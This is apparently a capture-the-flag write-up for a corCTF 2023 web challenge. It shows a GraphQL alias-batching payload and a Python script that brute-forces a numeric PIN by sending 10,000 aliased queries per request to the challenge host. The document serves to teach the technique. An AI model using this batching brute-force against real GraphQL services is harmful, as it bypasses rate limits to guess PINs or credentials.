 + If you send a query guessing the correct number between 1 to 100k, it will send you the flag.
+ application is using graphql
+ GraphQL allows us to make more than 1 query in the same string
+ Payload:
```
  query GetFlag {
    f1: flag(pin: 1)
    f2: flag(pin: 2)
}
```
Output:
```
{
    "data": {
        "f1": "Wrong!",
        "f2": "Wrong!"
    }
}
```
Exploit:
```
import requests

headers = {
    'Content-Type': 'text/plain;charset=UTF-8',
}

for i in range(10):
    MAX_NUM = 10000 # Max Request Size
    INI = (i*MAX_NUM)+MAX_NUM
    print(f'=========> Brute Range: {INI} - {INI+MAX_NUM-1}')
    QUERIES = '\n'.join([f'f{x}: flag(pin: {x})' for x in range(INI,INI+MAX_NUM)])
    OPERATION = 'query Getflag { ' + QUERIES +' }'

    response = requests.post('https://web-force-force-384c2b201a1a2244.be.ax/', headers=headers, data=OPERATION)

    result = response.text.replace(',', ',\n')
    print(f'Status: {response.status_code}')

    FLAG_PREFIX = 'corctf{'
    index = result.find(FLAG_PREFIX)
    if index > 0:
        flag_ini = index
        flag_end = result.index('}', index+len(FLAG_PREFIX)) + 1
        flag = result[index:flag_end]
        print(f'Flag is {flag}')
        break
    else:
        print('Not yet!')
    print()
```


https://fireshellsecurity.team/corctf2023-web/#challenge-force
